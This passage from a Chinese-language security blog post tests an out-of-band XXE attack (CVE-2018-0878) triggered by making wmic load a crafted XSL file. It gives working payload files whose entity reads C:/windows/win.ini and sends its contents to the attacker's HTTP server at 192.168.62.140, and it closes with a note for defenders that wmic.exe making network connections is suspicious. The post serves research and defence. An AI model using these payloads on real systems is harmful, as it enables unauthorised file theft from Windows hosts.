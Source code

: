 
#### 1、使用kali linux建立httt服务器

```
python -m SimpleHTTPServer 8080
```

#### 2、kali linux目录下创建文件xxe.xml

内容如下：

```
<!ENTITY % payload SYSTEM "file:///C:/windows/win.ini">  
<!ENTITY % root "<!ENTITY &#37; oob SYSTEM 'http://192.168.62.140:8080/?%payload;'> ">  
```

**注：**

kali linux的IP为192.168.62.140

#### 3、创建payload.xsl

内容如下：

```
<?xml version="1.0" encoding="UTF-8" ?>  
<!DOCTYPE zsl [  
<!ENTITY % remote SYSTEM "http://192.168.62.140:8080/xxe.xml">  
%remote;%root;%oob;]>
```

#### 4、windows系统使用wmic加载该xsl文件

```
wmic os get /format:payload.xsl
```

执行失败，提示`Invalid XSL format (or) file name.`


然而，漏洞成功触发，服务器获得文件`C:/windows/win.ini`的内容，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-4-23/3-1.png)


## 0x06 小结
---

本文测试了使用wmic从本地或从URL调用XSL文件的方法，分享了一个后门利用的思路，并结合CVE-2018-0878对XXE漏洞进行了测试。
站在防御的角度，如果wmic.exe发起了网络连接，那么很有可能是加载了特殊xsl文件的原因，值得注意。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


